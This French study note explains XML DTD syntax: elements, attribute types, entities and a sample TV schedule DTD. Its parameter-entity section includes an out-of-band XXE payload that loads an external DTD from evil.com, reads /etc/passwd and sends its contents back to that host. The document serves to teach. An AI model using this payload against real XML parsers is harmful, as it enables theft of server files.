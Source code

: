# XML DTD

* DTD pour _Document Type Definition_
* Définit la structure que devrait avoir un document xml
* On spécifie le DTD avant le premier nœud \(hors description\) dans un élément `<!DOCTYPE>` \(qui n'a pas de `/` fermante\)
  * Déclaration dans le fichier `<!DOCTYPE root_name [...]>`
  * Inclusion d'un fichier externe `<!DOCTYPE root_name SYSTEM "file">`

## Elément

```markup
<!ELEMENT element-name EMPTY>
<!ELEMENT element-name ANY>
<!ELEMENT element-name (#PCDATA)>
<!ELEMENT element-name (child1)>
<!ELEMENT element-name (child1, child2, ...)>
```

* `#PCDATA` \(_Parsed Character Data_\) signifie que ces données seront interprétées par le parser à l'inverse des `#CDATA` \(_Character Data_\)
* Les enfants doivent se retrouver dans le même ordre dans le document xml
* Tous les enfants spécifiés doivent être déclarés \(décrits\) dans le fichier DTD
* Certains symbole ajoute des restrictions :

```markup
<!ELEMENT note (message)> <!-- Uniquement 1 enfant nommé message -->
<!ELEMENT note (message+)> <!-- 1 ou plusieurs enfants nommés message -->
<!ELEMENT element-name (message*)> <!-- 0 ou plus enfants nommés message -->
<!ELEMENT element-name (message?)> <!-- 0 or 1 enfant nommé message -->
<!ELEMENT note (to,from,header,(message|body))> <!-- to, from header obligatoire, puis soit message soit body -->
```

## Attributs

```markup
<!ATTLIST element_name attribute_name attribute_type attribute_value>
```

| Type | Définition |
| :--- | :--- |
| CDATA | Character data |
| \(val1\|val2\|..\) | One from the enumerated list |
| \(val1\|val2\|..\) "val1" | One from the enumerated list, defaulting to the specified one |
| ID | Unique id |
| IDREF | Id of another element |
| IDREFS | List of other ids |
| NMTOKEN | Valid XML name |
| NMTOKENS | List of valid XML names |
| ENTITY | Entity |
| ENTITIES | List of entities |
| NOTATION | Name of a notation |
| xml: | Predefined xml value |

| Valeur | Définition |
| :--- | :--- |
| value | The default value of the attribute |
| \#REQUIRED | The attribute is required |
| \#IMPLIED | The attribute is optional |
| \#FIXED value | The attribute value is fixed |

## Entity

L'équivalent de variable, peuvent contenir une valeur donnée ou load le contenu d'un fichier \(local ou depuis un lien\). Ce second cas est ce qu'on appelle une entité externe.

```markup
<!DOCTYPE test [
    <!ENTITY entity_name1 "entity-value">
    <!ENTITY entity_name2 SYSTEM "URI/URL">
]>
<test>&entity_name1;</test>
```

### Parameter Entity

Elles permettent 2 choses :

* Etre référencées directement dans le DTD
* Référencer une autre entité dans leur valeur \(uniquement possible si elles sont en externe\)

L'exemple qui suit sert à une attaque mais montre bien l'idée :

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
    <!ENTITY % file_content SYSTEM "/etc/passwd">
    <!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%file_content;'>">
    %wrapper;
```

## Example Complet

```markup
<!DOCTYPE TVSCHEDULE [

<!ELEMENT TVSCHEDULE (CHANNEL+)>
<!ELEMENT CHANNEL (BANNER,DAY+)>
<!ELEMENT BANNER (#PCDATA)>
<!ELEMENT DAY (DATE,(HOLIDAY|PROGRAMSLOT+)+)>
<!ELEMENT HOLIDAY (#PCDATA)>
<!ELEMENT DATE (#PCDATA)>
<!ELEMENT PROGRAMSLOT (TIME,TITLE,DESCRIPTION?)>
<!ELEMENT TIME (#PCDATA)>
<!ELEMENT TITLE (#PCDATA)> 
<!ELEMENT DESCRIPTION (#PCDATA)>

<!ATTLIST TVSCHEDULE NAME CDATA #REQUIRED>
<!ATTLIST CHANNEL CHAN CDATA #REQUIRED>
<!ATTLIST PROGRAMSLOT VTR CDATA #IMPLIED>
<!ATTLIST TITLE RATING CDATA #IMPLIED>
<!ATTLIST TITLE LANGUAGE CDATA #IMPLIED>
]>
```

